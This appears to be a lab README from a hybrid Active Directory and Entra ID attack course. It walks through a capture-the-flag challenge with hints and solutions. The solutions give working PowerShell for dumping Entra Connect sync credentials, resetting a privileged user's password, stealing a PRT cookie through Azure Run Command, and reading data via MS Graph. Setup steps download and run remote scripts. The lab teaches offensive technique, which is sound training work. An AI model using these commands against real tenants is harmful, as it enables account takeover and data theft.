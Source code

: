 creds of an SP -> azure run command -> vm that has user logged on -> steal user prt ->


# Preparations
1. RDP login to DC VM using the **YOURDOMAIN\rootuser**
then, run the following powershell script as admin:
    ```powershell
    # when asked, login using the ENTRA CREDS (!)
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1"
    ```
2. RDP login to Win11 VM using the **YOURDOMAIN\user1**
then, , run the following powershell script as admin:
    ```powershell
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4Win11VmPrepScript.ps1" -OutFile "C:\\lab4Win11VmPrepScript.ps1"; `
        & "C:\\lab4Win11VmPrepScript.ps1"
    ```
keep this window open in the background - you're not allowed to use it from now on.

# Instructions
1. Your goal is to find the secret.txt file 
2. forget everything you knew: from this point on you DON'T know what the admin password is (i.e. what's the password of 'user1')
3. DO NOT password reset or silver ticket (seamless sso) "user1"
3. the only thing you have is the RDP session on the DC. Good luck! 

# Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on a VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

    1. pass reset: DC vm -> reset pass of "user2" using Entra Sync credentials

    2. login to Azure as that user using your browser

    3. azure run command on Win11 VM (the VM that has user1 logged on)

    4. Steal user1 PRT Cookie by running powershell script from the Run Command extension on the Azure portal 

    5. Use PRT Cookie to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>



## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -SaveToCache
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```
Target user2, as he holds a privileged role.. 

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
</details>


## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    Use this ability to get a PRT Cookie so you can impersonate as that user and steal its identity and permissions
</details>

<details>
    <summary><b>Hint 4</b></summary>

    user1 is a part of the company's red team, he continuously, on a regular basis, runs scripts from his Desktop folder to map their Entra tenant attack surface. Use that to your advantage.
</details>

<details>
<summary><b>Solution</b></summary>

user1 uses roadrecon to map attack surfaces in his company's attack surface, the script is executed on a regular basis.
as we learned, roadrecon writes a file with the access token called "", we can take that access token and steal it!
1. Get the logged in user's access token: run the following command from the Run Command Window in the Azure portal:

```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadrecon auth -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken 
 <eyJh... PRT COOKIE>

```
</details>


### Step 3 Hint
### Step 3 Solution

```powershell
$at = "eyJ...."
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser
```

### Bonus: 
Go back to the beginning, and try steal user2 using silver ticket (Seamless SSO) instead of password reset


## Don't forget
Once done, delete the lab resource groups to clean up the resources